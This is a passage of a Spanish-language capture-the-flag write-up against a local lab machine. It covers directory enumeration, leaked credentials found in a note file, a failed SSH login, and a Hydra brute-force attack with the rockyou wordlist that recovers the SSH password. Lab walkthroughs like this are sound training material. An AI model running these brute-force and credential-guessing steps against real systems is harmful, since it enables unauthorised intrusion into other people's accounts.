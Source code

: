 **Resultado:**
```
/.        (Status: 200) [Size: 589]
/notes    (Status: 301) [Size: 308] [--> http://172.17.0.2/notes/]
```

¡Excelente! Descubrimos el directorio `/notes`.

---

## 2. Descubrimiento de Información Sensible

### 2.1 Análisis del Directorio /notes
Al acceder a `http://172.17.0.2/notes/`, encontramos un archivo llamado `note.txt` con el siguiente contenido:

```
Dear developer,
Please remember to change your credentials "dev:developer123" to something stronger.
I've already warned you that weak passwords can get us compromised.

-Admin
```

**Información extraída:**
- Usuario potencial: `dev`
- Contraseña sugerida: `developer123`
- Indica que estas credenciales son débiles y deben cambiarse

### 2.2 Intento de Acceso SSH
Probamos las credenciales encontradas en el servicio SSH:

```bash
ssh dev@172.17.0.2
# Password: developer123
```

**Resultado:** `Permission denied, please try again.`

Las credenciales del archivo no funcionan, confirmando que fueron cambiadas como sugería la nota.

---

## 3. Ataque de Fuerza Bruta

### 3.1 Hydra contra SSH
Dado que las credenciales del archivo no son válidas, procedemos con un ataque de fuerza bruta usando Hydra:

```bash
hydra -l dev -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

**Resultado exitoso:**
```
[22][ssh] host: 172.17.0.2   login: dev   password: computer
```
